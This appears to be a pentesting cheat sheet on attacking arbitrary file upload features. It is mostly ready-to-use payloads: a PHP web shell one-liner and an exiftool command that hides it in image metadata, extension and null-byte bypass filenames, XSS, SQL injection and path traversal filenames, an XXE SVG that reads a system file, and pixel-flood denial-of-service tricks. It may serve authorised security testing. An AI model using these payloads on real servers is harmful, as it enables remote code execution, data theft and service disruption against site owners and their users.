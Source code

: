### Vulnerabilities via Arbitrary File Upload


### Bypasses
#### MIME Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

#### Magic Number Validation Bypass
##### Use Exiftool and instert malicious code
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['c']);?>' image.jpg
mv image.jpg image.php.jpg
```
#### Extension Bypass

| Type        | Extension       |
| ------------- |---------------|
| **php**      | phtml, .php, .php3, .php4, .php5, and .inc |
| **asp**      | asp, .aspx      |
| **perl** | .pl, .pm, .cgi, .lib      |
| **jsp**      | .jsp, .jspx, .jsw, .jsv, and .jspf      |
| **Coldfusion**      | .cfm, .cfml, .cfc, .dbm      |

#### Other Techniques(Extension Bypass)
```
file.shtml
file.asa
file.cert
```

##### Lower & Uppercase of Extensions
```
file.PhP
file.AspX
```

#### Using Special Trailing Such as Spaces, Dots or Null Characters or Double Extensions or Adding Junk Data
```
file.asp...
file.php;jpg
file.png.php
file.png.Php5
file.png.pHp5
file.php%00.png
file.php\x00.png
file.jpg%00.php
file.php%0d%0a
file.php/
file.php.\
file.php%20
file.php%0a
file.php%00
file.
file.php%0delete0.jpg
file.phpJunk123png
```

#### In IIS6 vulnerability, if the file name is ```file.asp;file.jpg```, the file will be executed as ```file.asp```.
#### In NginX, if the original file name is ```test.jpg```, testers/hackers may change it to ```test.jpg/x.php```, the file will be executed as ```x.php```.

### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### XXE
##### Filename: xxe.svg
##### Content-Type: image/svg+xml
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### SSRF
```
Change 'type=file' to 'type=url'
```
#### DoS Attack via Long File Name
```
# This one is a sample
aaaaaaaaa...zzzzzz.jpeg
```

#### DoS Attack via Pixel Flood Attack
![lottapixel.jpg](../Images/lottapixel.jpg)

#### Bypass
```
Replace the 64250*64250px pixel value with 0xfafa*0xfafa

For pixel change: https://www.resizepixel.com/
```
#### Meatadata Not Stripped From Image
```
- Upload image
- Copy the uploaded image url and paste it http://exif.regex.info/exif.cgi
- See any sensitive data like geolocation, IP address, device name etc. is exposed or not.
```

#### No Antivirus - EICAR file Upload
```
- Upload test malware file (EICAR).
- Observe that there is no AV installed on the web server that stops uploading EICAR file.
```
#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension

### List of things that you can achieve by uploading file
* SVG: Stored XSS / SSRF / XXE
* HTML / JS : HTML injection / XSS / Open redirect
* ASP / ASPX / PHP5 / PHP / PHP3: Webshell / RCE
* GIF: Stored XSS / SSRF
* CSV: CSV injection
* PNG / JPEG: Pixel flood attack (DoS)
* ZIP: RCE via LFI / DoS
* PDF / PPTX: SSRF / BLIND XXE
* XML: XXE
* AVI: LFI / SSRF
